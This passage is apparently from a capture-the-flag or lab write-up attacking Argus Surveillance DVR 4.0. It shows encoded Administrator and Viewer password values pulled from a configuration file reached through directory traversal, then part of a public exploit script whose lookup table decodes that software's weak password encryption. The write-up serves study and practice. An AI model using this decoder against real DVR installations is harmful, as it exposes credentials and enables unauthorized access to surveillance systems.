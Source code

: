 (o)StateProvince1=
(o)ZipPostalCode1=
(o)Country1=
(o)ComputerID1=
(o)TrialAccount1=0
{{< /bash-collapse >}}

This file had lots more information in it than when I accessed it from the directory traversal vulnerability, which I have no idea why didnt show up back then.

From the file I gathered the encoded passwords from the Administrator and viewer users:
`Administrator: Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8`
`Viewer: Password1=5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE`

Below is the python script from the exploit from exploitdb that decodes the encoded passwords. I made a minor change to make the password get printed out on a single line.

{{< highlight python >}}
# Exploit Title: Argus Surveillance DVR 4.0 - Weak Password Encryption
# Exploit Author: Salman Asad (@deathflash1411) a.k.a LeoBreaker
# Date: 12.07.2021
# Version: Argus Surveillance DVR 4.0
# Tested on: Windows 7 x86 (Build 7601) & Windows 10
# Reference: https://deathflash1411.github.io/blog/dvr4-hash-crack

# Note: Argus Surveillance DVR 4.0 configuration is present in
# C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini

# I'm too lazy to add special characters :P
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z','!':'B398'}
